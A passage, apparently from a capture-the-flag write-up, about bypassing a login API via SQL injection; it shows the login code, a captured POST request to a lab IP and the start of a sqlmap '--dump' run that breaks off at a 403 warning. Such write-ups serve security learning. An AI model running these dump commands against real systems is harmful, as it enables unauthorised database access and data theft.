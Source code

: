 ```
        if passwordCheck:
            token = createJWT(user['username'])
            return token
    else:
        return False
```
Our SQL injection approach from Drobots has been remedied. Even when we bypass the username input check, the password is verified in a separate instance. Problem solved, or is it?

Before moving on to probing SQL injection further, I check for potentially alternative pages by looking at the `routes.py` file. The only other page is an /export page, that requires a valid JSON token. So we will explore the login bypass further.

Instead of manually checking a variety of SQL payloads, we will employ a tool to make this quick and easy: SQLmap. SQLmap can be easily set up to do post requests by passing it the request information in a file:
```
$ cat post.txt         
POST /api/login HTTP/1.1
Host: 68.183.45.143:30274
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.45.143:30274/
Content-Type: application/json
Origin: http://68.183.45.143:30274
Content-Length: 42
Connection: close

{"username":"admin","password":"password"}
```


Full sqlmap dump output.
```
$ sqlmap -r post.txt -p username --dbms=mysql --dump 
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[(]_____ ___ ___  {1.7.2#stable}                                                                                                                                                                                                   
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:23:08 /2023-03-20/

[19:23:08] [INFO] parsing HTTP request from 'post.txt'
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[19:23:16] [INFO] testing connection to the target URL
[19:23:16] [WARNING] the web server responded with an HTTP error code (403) which could interfere with the results of the tests
```